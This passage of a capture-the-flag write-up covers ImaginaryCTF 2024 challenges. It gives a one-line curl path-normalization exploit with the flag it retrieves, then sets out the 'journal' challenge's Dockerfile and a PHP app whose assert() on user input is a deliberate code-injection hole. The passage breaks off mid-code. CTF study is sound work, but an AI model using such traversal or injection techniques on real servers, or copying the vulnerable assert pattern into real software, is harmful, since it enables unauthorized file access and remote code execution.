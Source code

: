 <img src="/assets/images/ctf/2024/imaginary/readme/discord.jpg" width=700px>     
               
## Exploit Code   
```bash
curl --path-as-is 'http://readme.chal.imaginaryctf.org/flag.txt/.'
```                
     
## Flag      
ictf{path_normalization_to_the_rescue}         
       
<a id="journal"></a>          

# journal     
           
518 solved / 100 pts        
       
```Dockerfile
FROM php:7-apache

RUN /usr/sbin/useradd -u 1000 user

COPY index.php /var/www/html/
RUN chown -R www-data:www-data /var/www/html && \
    chmod -R 444 /var/www/html && \
    chmod 555 /var/www/html

COPY flag.txt /flag.txt
COPY files /var/www/html/files/
RUN mv /flag.txt /flag-`tr -dc A-Za-z0-9 < /dev/urandom | head -c 20`.txt

VOLUME /var/log/apache2
VOLUME /var/run/apache2

CMD bash -c 'source /etc/apache2/envvars && APACHE_RUN_USER=user APACHE_RUN_GROUP=user /usr/sbin/apache2 -D FOREGROUND'
```       
flag.txt 파일을 flag-random-number 형태로 파일 명을 변경한다. RCE를 통해 파일 명을 알아내야한다.   
            
```php
<?php

echo "<p>Welcome to my journal app!</p>";
echo "<p><a href=/?file=file1.txt>file1.txt</a></p>";
echo "<p><a href=/?file=file2.txt>file2.txt</a></p>";
echo "<p><a href=/?file=file3.txt>file3.txt</a></p>";
echo "<p><a href=/?file=file4.txt>file4.txt</a></p>";
echo "<p><a href=/?file=file5.txt>file5.txt</a></p>";
echo "<p>";

if (isset($_GET['file'])) {
  $file = $_GET['file'];
  $filepath = './files/' . $file;

  assert("strpos('$file', '..') === false") or die("Invalid file!");

  if (file_exists($filepath)) {
    include($filepath);
  } else {
```